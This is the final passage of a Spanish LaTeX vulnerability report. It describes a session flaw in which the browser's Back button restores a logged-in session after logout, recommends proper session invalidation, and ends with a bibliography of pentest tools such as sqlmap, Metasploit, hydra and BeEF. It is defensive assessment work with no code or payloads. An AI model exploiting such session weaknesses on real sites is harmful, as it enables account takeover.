                    
\includegraphics[width=0.7\textwidth]{./img/vulnerabilidades/2.6/1.3.png}
                    \caption{Vuelta atrás}
                \end{figure}
                Como podemos ver, al darle al botón de 'Atrás' del navegador, volvemos a la página de inicio, pero con la sesión iniciada.
                Esto nos permite acceder a la página web en nombre de un usuario sin necesidad de iniciar sesión.
                Este problema es muy peligroso ya que permite a un atacante acceder a la página web en nombre de un usuario sin necesidad de conocer su contraseña.
                Es necesario que la página web invalida correctamente las sesiones para evitar este tipo de ataques y que no almacena información en caché.
            \clearpage
    \chapter{Bibliografía}
        \begin{itemize}
            \item OWASP. (2021). Informe de Vulnerabilidades. OWASP. \url{https://owasp.org/www-project-top-ten/}
            \item GPT-3.5. (2023). Respuestas a preguntas varias. OpenAI. \url{https://www.openai.com/}
            \item GitHub Copilot. (2022). Autocompletado. GitHub. \url{https://github.com/features/copilot}
            \item sqlmap. (2017). Documentación de sqlmap. sqlmap. \url{https://github.com/sqlmapproject/sqlmap/wiki/}
            \item ZAP. (2023). Documentación de ZAP. OWASP. \url{https://www.zaproxy.org/docs/}
            \item Metasploit. (2023). Documentación de Metasploit. Rapid7. \url{https://docs.rapid7.com/metasploit/}
            \item nmap. (2020). Documentación de nmap. nmap. \url{https://nmap.org/man/es/}
            \item cupp. (2020). Documentación de cupp. cupp. \url{https://github.com/Mebus/cupp}
            \item hydra. (2023). Documentación de hydra. THC. \url{https://github.com/vanhauser-thc/thc-hydra}
            \item DirBuster. (2023). Documentación de DirBuster. OWASP. \url{https://owasp.org/www-pdf-archive/DirBuster_OWASP-London_September-2008.pdf}
            \item curl. (2023). Documentación de curl. curl. \url{https://curl.se/docs/}
            \item Wireshark. (2023). Documentación de Wireshark. Wireshark. \url{https://www.wireshark.org/docs/}
            \item Burp Suite. (2023). Documentación de Burp Suite. PortSwigger. \url{https://portswigger.net/burp/documentation}
            \item BeEF. (2023). Documentación de BeEF. BeEF. \url{https://github.com/beefproject/beef/wiki}
        \end{itemize}
\end{document}
